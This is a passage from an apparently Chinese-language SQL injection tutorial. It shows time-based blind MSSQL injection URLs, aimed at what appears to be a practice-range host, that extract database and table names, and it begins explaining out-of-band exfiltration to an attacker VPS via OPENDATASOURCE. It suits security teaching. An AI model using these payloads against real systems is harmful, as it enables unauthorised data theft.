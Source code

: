 ```
语法：n表示延时几秒
WAITFOR DELAY '0:0:n'id=1 if (布尔盲注的判断语句) WAITFOR DELAY '0:0:5' -- qwe
```

### <a class="reference-link" name="2%E3%80%81%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE"></a>2、查询数据

```
#判断如果第一个库的库名的第一个字符的ascii码为109，则延时5秒
http://219.153.49.228:40768/new_list.asp?id=2 if (ascii(substring((select top 1 db_name()),1,1))=109) WAITFOR DELAY '0:0:5' -- qwe
```

[![](https://p3.ssl.qhimg.com/t018900c2d899e6edae.png)](https://p3.ssl.qhimg.com/t018900c2d899e6edae.png)

```
#判断如果第一个表的表名的第一个字符为m，则延时5秒
http://219.153.49.228:40768/new_list.asp?id=2 if (substring((select top 1 name from dbo.sysobjects where xtype='U'),1,1)='m') WAITFOR DELAY '0:0:5' -- qwe
```

[![](https://p3.ssl.qhimg.com/t01b7f6779fd2f33d7e.png)](https://p3.ssl.qhimg.com/t01b7f6779fd2f33d7e.png)



## 0x07 反弹注入

就像在Mysql中可以通过dnslog外带，Oracle可以通过python搭建一个http服务器接收外带的数据一样，在MSSQL数据库中，我们同样有方法进行数据外带，那就是通过反弹注入外带数据。<br>
反弹注入条件相对苛刻一些，一是需要一台搭建了mssql数据库的vps服务器，二是需要开启堆叠注入。<br>
反弹注入需要使用opendatasource函数。

```
OPENDATASOURCE(provider_name,init_string):使用opendatasource函数将当前数据库查询的结果发送到另一数据库服务器中。
```

### <a class="reference-link" name="1%E3%80%81%E7%8E%AF%E5%A2%83%E5%87%86%E5%A4%87"></a>1、环境准备

1、首先打开靶场

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0125c9c6371197c223.png)

3、连接vps的mssql数据库，新建表test，字段数与类型要与要查询的数据相同。这里因为我想查询的是数据库库名，所以新建一个表里面只有一个字段，类型为varchar。

```
CREATE TABLE test(name VARCHAR(255))
```

[![](https://p0.ssl.qhimg.com/t01202219ab5bf4ddfc.png)](https://p0.ssl.qhimg.com/t01202219ab5bf4ddfc.png)

### <a class="reference-link" name="2%E3%80%81%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE%E5%BA%93%E6%89%80%E6%9C%89%E8%A1%A8"></a>2、获取数据库所有表
